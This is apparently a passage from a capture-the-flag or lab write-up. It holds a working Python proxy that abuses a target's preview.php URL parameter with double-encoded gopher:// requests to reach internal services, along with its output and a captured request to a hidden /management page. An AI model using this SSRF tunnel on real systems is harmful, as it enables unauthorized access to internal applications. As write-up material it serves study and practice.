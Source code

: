 <h2>Proxy B</h2>

```bash
#!/usr/bin/env python3

import socket
import requests
import urllib.parse
import threading

LHOST = '127.0.0.1'
LPORT = 5000
TARGET_HOST = "xx.xx.xxx.xx"
HOST_TO_PROXY = "127.0.0.1"
PORT_TO_PROXY = 80

def handle_client(conn, addr):
    with conn:
        data = conn.recv(65536)
        double_encoded_data = urllib.parse.quote(urllib.parse.quote(data))
        target_url = f"http://{TARGET_HOST}/preview.php?url=gopher://{HOST_TO_PROXY}:{PORT_TO_PROXY}/_{double_encoded_data}"
        resp = requests.get(target_url)
        conn.sendall(resp.content)

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.bind((LHOST, LPORT))
    s.listen()
    print(f"Listening on {LHOST}:{LPORT}, proxying to {HOST_TO_PROXY}:{PORT_TO_PROXY} via {TARGET_HOST}...")
    while True:
        conn, addr = s.accept()
        client_thread = threading.Thread(target=handle_client, args=(conn, addr), daemon=True)
        client_thread.start()
```


```bash
:~# python3 proxy2.py
Listening on 127.0.0.1:5000, proxying to 127.0.0.1:80 via xx.xx.xxx.xx...
```

<h2>127.0.0.1:5000/management</h2>

<img width="1189" height="556" alt="image" src="https://github.com/user-attachments/assets/af6d543e-bf18-42da-abaa-0fb18a6b802d" />

<br>

<img width="1191" height="437" alt="image" src="https://github.com/user-attachments/assets/6d2ea885-fcbb-4d57-b70b-a71b5a89cfa1" />

<br><br>

```bash
POST /management/ HTTP/1.1
Host: 127.0.0.1:5000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Origin: http://127.0.0.1:5000
Connection: keep-alive
Referer: http://127.0.0.1:5000/management/
Cookie: PHPSESSID=**************************
Upgrade-Insecure-Requests: 1
```